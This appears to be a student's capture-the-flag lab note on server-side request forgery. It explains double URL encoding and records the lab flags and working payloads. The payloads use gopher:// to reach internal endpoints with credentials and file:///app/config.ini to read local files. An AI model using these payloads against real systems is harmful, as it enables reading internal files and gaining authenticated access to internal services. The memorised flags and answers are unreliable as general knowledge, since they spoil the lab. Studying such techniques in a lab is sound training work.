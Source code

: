 ![[Pasted image 20241104145428.png]]
Our browser URL-encoded all non-alphanumeric characters. In the case of the percent sign, this resulted in each space character being double URL-encoded as `"%2520"`. The application essentially processes our request twice. The application first processes it as the request to /preview. This request triggers the SSRF attack, which sends another request, in this case the GET request to 127.0.0.1/status. Since the payload values are double encoded, the application does not fully decoded the payload until it processes the second request.

If we were to replicate this attack from curl or in the Repeater tool of Burp Suite, we would need to double encode any non-alphanumeric characters as well.


##### Labs
1. `OS{theSlythyTovesDidGyreAndGymbleInTheWabe}`
![[Pasted image 20241104153004.png]]
Payload to get config file
```bash
gopher://127.0.0.1:80/_GET%20/status%20HTTP/1.1%0a
```
![[Pasted image 20241104145701.png]]
find information about `/app/config.ini` location
![[Pasted image 20241104145736.png]]
Payload to grab `/app/config.ini`
```bash
file:///app/config.ini
```
![[Pasted image 20241104150725.png]]
create a payload that uses `gopher` payload to grab the `/protectedfile` utilizing the authentication methods of `password` and `apikey`
The Payload
```bash
gopher://127.0.0.1:80/_GET%20/protectedflag%3Fpassword%3Dtwasbryllyg%20HTTP/1.1%0AHost:%20127.0.0.1%0AAuthorization:%20Bearer%20chesirecat%0A%0A
```

![[Pasted image 20241104152724.png]]


Shows how to use Authorization Bearer
https://forum.knime.com/t/get-api-call-using-bearer-token/70535


2.
`OS{followTheWhiteRabbit}`
![[Pasted image 20241104155902.png]]
1st payload attempt: didnt work
```bash
gopher://backend/_POST%20/login%3Fusername%3Dwhite.rabbit%3Fpassword%3Ddontbelate%20HTTP/1.1%0AHost:%20127.0.0.1
```
couldnt get my payload to work due to double encoding:
```bash
gopher://backend:80/_POST%2520/login%2520HTTP/1.1%250AHost:%2520127.0.0.1%250AContent-Type:%2520application/x-www-form-urlencoded%250AContent-Length:%252040%250A%250Ausername=white.rabbit%2526password=dontbelate
```
pulled this very similar payload from discord and it worked:
```bash
gopher://backend:80/_POST%20/login%20HTTP/1.1%0aContent-Type:%20application/x-www-form-urlencoded%0aContent-Length:%2041%0a%0ausername=white.rabbit&password=dontbelate
```
